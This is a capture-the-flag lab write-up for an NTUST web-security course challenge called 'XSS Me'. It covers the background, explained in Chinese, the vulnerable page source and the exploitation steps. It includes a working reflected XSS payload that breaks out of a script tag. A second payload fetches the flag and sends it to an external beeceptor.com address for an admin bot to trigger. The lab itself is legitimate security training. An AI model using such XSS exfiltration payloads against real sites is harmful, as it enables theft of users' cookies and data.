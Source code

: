 ```yaml
---
title: Simple Web 0x11(Lab - XSS Me)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Fronted"
---
```


# Simple Web 0x11(Lab - XSS Me)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8800/

## Background
:::spoiler
攻擊者沒有直接攻擊受害者，而是把惡意程式植入到受害者會瀏覽的網頁，當受害者瀏覽該網頁時，就會自動執行惡意程式，並把受害主機的一些資料送回給駭客(這是其中一種受害方式，也可能很直接的被盜取`COOKIE`之類的)
![](https://i.imgur.com/lZ0bj41.png)

![](https://i.imgur.com/grJXpr7.png)

![](https://i.imgur.com/q9fwa6z.png)
:::
## Source code
```javascript!
...
<script>
    const message = {"icon": "error", "titleText": "User not found.", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
    window.onload = function () {
        if (message !== null) Swal.fire(message);
    }
</script>
...
```
## Exploit
1. Check XSS
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "youshallnotpass", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ...
    ```
    ![](https://i.imgur.com/OffMAUF.png)
2. Try to inject script tag
Payload: `http://h4ck3r.quest:8800/?type=error&message=%3C/script%3E%3Cscript%3Ealert(123)%3C/script%3E//`
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "</script><script>alert(123)</script>//", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ```
    ![](https://i.imgur.com/1cZJvIv.png)
* Hint
If you login as guest(password = guest), then you can get the response
![](https://i.imgur.com/s2R75Xf.png)

3. Fetch flag and send to [beeceptor](https://beeceptor.com/)
Payload: 
    ```!
    http://h4ck3r.quest:8800/?message=%3C/script%3E%3Cscript%3Efetch(`/getflag\).then(r=%3Er.text()).then(flag=%3Elocation.href=`https://sbk6401.free.beeceptor.com/?f=${flag}`)%3C/script%3E//
    ```

4. Report to admin. Then you got flag!!!